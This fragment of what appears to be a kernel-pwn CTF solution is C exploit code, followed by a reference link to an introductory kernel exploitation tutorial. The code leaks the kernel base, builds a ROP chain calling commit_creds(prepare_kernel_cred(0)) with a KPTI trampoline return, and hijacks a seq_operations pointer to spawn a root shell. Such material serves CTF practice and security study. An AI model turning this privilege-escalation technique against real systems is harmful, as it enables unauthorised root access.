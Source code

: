 ```c
  delete(0);
  
  int seq_fd=seq_open();
  
  read(dev_fd,(char *)recv,0x20);
  
  uint64_t kernel_base=recv[0]-0x33F980;
  uint64_t prepare_kernel_cred=kernel_base+0xcebf0;
  uint64_t commit_creds=kernel_base+0xce710;
  uint64_t kpti_trampoline=kernel_base+0xc00fb0;
  uint64_t seq_read=kernel_base+0x340560;
  uint64_t pop_rdi=kernel_base+0x2517a;
  uint64_t mov_rdi_rax=kernel_base+0x5982f4;
  uint64_t gadget=kernel_base+0x94a10;
  
  printf("[+] kernel_base: 0x%lx\n",kernel_base);
  printf("[+] prepare_kernel_cred: 0x%lx\n",prepare_kernel_cred);
  printf("[+] commit_creds: 0x%lx\n",commit_creds);
  printf("[+] gadget: 0x%lx\n",gadget);
  
  uint64_t *mmap_addr=mmap((void *)(gadget&0xFFFFF000),PAGE_SIZE,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_ANONYMOUS|MAP_SHARED,-1,0);
  printf("[+] mmap_addr: 0x%lx\n",(uint64_t)mmap_addr);
  
  uint64_t *ROP=(uint64_t *)(((char *)mmap_addr)+0xa10),i=0;
  *(ROP+i++)=pop_rdi;
  *(ROP+i++)=0;
  *(ROP+i++)=prepare_kernel_cred;
  *(ROP+i++)=commit_creds;
  *(ROP+i++)=kpti_trampoline+22;
  *(ROP+i++)=0;
  *(ROP+i++)=0;
  *(ROP+i++)=(uint64_t)get_shell;
  *(ROP+i++)=user_cs;
  *(ROP+i++)=user_eflag;
  *(ROP+i++)=user_rsp;
  *(ROP+i++)=user_ss;
  
  memcpy(buf,recv,0x20);
  buf[0]=(uint64_t)gadget;
  write(dev_fd,(char *)buf,0x20);
  read(seq_fd,NULL,1);

}
```



## Reference

[Kernel pwn CTF 入门](https://kiprey.gitee.io/2021/10/kernel_pwn_introduction)
